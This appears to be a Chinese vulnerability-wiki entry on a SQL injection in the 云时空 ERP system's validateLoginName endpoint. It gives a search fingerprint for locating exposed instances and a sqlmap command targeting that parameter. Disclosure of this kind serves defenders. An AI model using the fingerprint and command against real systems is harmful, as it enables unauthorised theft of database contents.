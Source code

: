 # 云时空 社会化商业ERP系统 validateLoginName SQL注入漏洞

## 漏洞描述

云时空 社会化商业ERP系统存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
云时空 社会化商业ERP系统
```

## 网络测绘

```
title="云时空社会化商业ERP"
```

## 漏洞复现

登录页面

![image-20220525102459840](images/202205251026873.png)

使用SQLmap验证漏洞

```
sqlmap -u "http://xxx.xxx.xxx.xxx/sys/user/validateLoginName?loginName=admin"
```

![image-20220525103355733](images/202205251033940.png)